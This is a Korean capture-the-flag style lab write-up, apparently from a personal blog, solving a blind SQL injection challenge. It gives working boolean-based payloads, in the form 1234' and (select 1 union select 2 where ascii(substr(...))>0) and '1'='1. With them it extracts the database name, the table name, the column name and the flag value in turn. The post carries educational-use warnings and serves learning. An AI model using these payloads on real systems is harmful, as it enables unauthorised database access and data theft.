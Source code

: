 ```yaml
---
layout: single
title:  "8 주차 SQL injection 데이터 추출 문제 풀이(4)"
categories: SQL-injection
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1. 8 주차 SQL injection 데이터 추출 문제 풀이(4)</span>

<br><span style='font-weight:bold; font-size:15px'> ※ 주의 사항 :</span>   

<span style='font-weight:bold; font-size:15px'>1. 교육 목적으로만 이용 해주세요.</span><br>
<span style='font-weight:bold; font-size:15px'>2. 무단 침입, 데이터 유출, 개인 정보 침해 등 불법적인 활동은 심각한 법적 결과를 초래할 수 있습니다.</span><br>
<span style='font-weight:bold; font-size:15px'>3.  개인적인 테스트 환경을 구축해서 실습하시길 바랍니다. </span>

<br>

## <span style="background:#696969; color:#ffffff">1.1  SQLi Point 4 문제 </span>

<br>

<img src="/images/2024-06-09-SQLinjection28/image-20240612231453430.png" alt="image-20240612231453430" style="zoom:67%;" />

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.1 sql injection 포인트 찾기</span>

***

<br>



<img src="/images/2024-06-09-SQLinjection28/image-20240612231942789.png" alt="image-20240612231942789" style="zoom:67%;" />

![image-20240612232040980](/images/2024-06-09-SQLinjection28/image-20240612232040980.png)

![image-20240612232100428](/images/2024-06-09-SQLinjection28/image-20240612232100428.png)

![image-20240612232120621](/images/2024-06-09-SQLinjection28/image-20240612232120621.png)

![image-20240612232441799](/images/2024-06-09-SQLinjection28/image-20240612232441799.png)

![image-20240612232515765](/images/2024-06-09-SQLinjection28/image-20240612232515765.png)

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.2  select 문구가 사용가능한 지 체크</span>

***

<br>

<img src="/images/2024-06-09-SQLinjection28/image-20240612232820682.png" alt="image-20240612232820682" style="zoom:67%;" />



![image-20240612232803575](/images/2024-06-09-SQLinjection28/image-20240612232803575.png)

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.3 공격 format 만들기</span>

***

<br>

1234' and (select 1 union select 2 where (ascii(substr((select ~~),1,1))>0)) and '1'='1

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.4 DB이름 확인하기</span>

***

<br>

select database() limit 0,1

1234' and (select 1 union select 2 where (ascii(substr((select database() limit 0,1),1,1))>0)) and '1'='1

![image-20240612233212197](/images/2024-06-09-SQLinjection28/image-20240612233212197.png)

sqli_9

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.5 table이름 확인하기</span>

***

<br>

select table_name from information_schema.tables where table_schema='sqli_9' limit 0,1

1234' and (select 1 union select 2 where (ascii(substr((select table_name from information_schema.tables where table_schema='sqli_9' limit 0,1),1,1))>0)) and '1'='1

![image-20240612233431791](/images/2024-06-09-SQLinjection28/image-20240612233431791.png)

flagHere

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.6 column 이름 확인하기</span>

***

<br>

select column_name from information_schema.columns where table_name='flagHere' limit 0,1

1234' and (select 1 union select 2 where (ascii(substr((select column_name from information_schema.columns where table_name='flagHere' limit 0,1),1,1))>0)) and '1'='1

![image-20240612233608694](/images/2024-06-09-SQLinjection28/image-20240612233608694.png)

flag

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.7 data 추출하기</span>

***

<br>

select flag from flagHere limit 0,1 

1234' and (select 1 union select 2 where (ascii(substr((select flag from flagHere limit 0,1),1,1))>0)) and '1'='1

![image-20240612233800643](/images/2024-06-09-SQLinjection28/image-20240612233800643.png)

segfault{~~}